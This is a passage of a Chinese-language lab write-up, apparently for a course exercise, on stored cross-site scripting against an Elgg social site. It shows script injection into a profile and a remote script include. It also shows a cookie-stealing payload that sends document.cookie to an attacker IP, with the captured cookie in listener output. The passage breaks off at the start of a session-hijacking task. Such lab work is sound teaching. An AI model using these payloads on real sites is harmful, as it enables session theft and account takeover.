 1. 以alice身份登录，修改profile，在其中的about me或者brief description等区域都可以注入js代码，注意如果在about me中注入的话，要点击那个html按钮编辑源代码。

    需要注意的是不要从PDF手册中直接拷贝，PDF中的单引号不对……

2. 如果我们想运行一段长的JavaScript代码，为了不受字段字符数量的限制，可以把JavaScript程序保存在js文件内，然后在`<script>`标签内使用`src`属性进行引用。

    1. 新建forxss.js文件，内容为`alert('XSS');`
    2. 新架设一个Web服务，这里懒得再弄了，直接从系统预装里面选一个，比如`www.poplab.com`，根目录为`/var/www/soplab/`，把上面的forxss.js放在这个目录下。
    3. 在brief description里面填入`<script type="text/javascript" src="http://www.soplab.com/forxss.js"> </script>`
    4. Firefox浏览Alice的profile，弹窗成功。

### 任务2：弹出Cookie
要求修改js代码，使得用户浏览时，弹出自己的cookie。

没啥特别的，把前面的`alert('XSS');`修改为`alert(document.cookie);`即可。

弹窗内容实例：
> Elgg=eb4fdg0hiev1rhcrkns91u1fk6

### 任务3：窃取Cookie
在用户那里弹出cookie没什么用，攻击者的目的肯定是要将获取的cookie偷取到攻击者那里才行。

这里用宿主机代表攻击者(ip:192.168.43.237)，用虚拟机代表服务器。

只要能够运行js脚本，其他就是技巧性地选择调用相关函数就好了。

 据指南，可以调用write函数请求一张远程图片。代码如下：
```js
<script>
document.write('<img src=http://192.168.43.237:5555?c='
    + escape(document.cookie) + ' >');
</script>
```

攻击者在远端运行监听服务器程序（实验中提供的程序）等待连接。用户触发脚本后，服务器得到：
```sh
$ ./echoserv 5555
GET /?c=Elgg%3Deb4fdg0hiev1rhcrkns91u1fk6 HTTP/1.1
```
注：`%3D`是`=`URL编码后的结果（对整个`Elgg%3D.....1fk6`解码可得原cookie）。

### 任务4：会话劫持
在窃取受害者的cookies之后，攻击者可以对Elgg网络服务器做任何事情，包括代表受害者添加和删除朋友，删除受害者的帖子等。本质上，攻击者已经劫持了受害者的会话。在这个任务中，我们将发起这个会话劫持攻击，并写一个程序来代表受害者添加一个好友。

1. 查看真实请求。

    为了假冒请求，首先需要弄清楚真的请求应该是什么样子的。假设boby是攻击者，他首先用LiveHTTPHeader监听自己真正的添加好友请求：

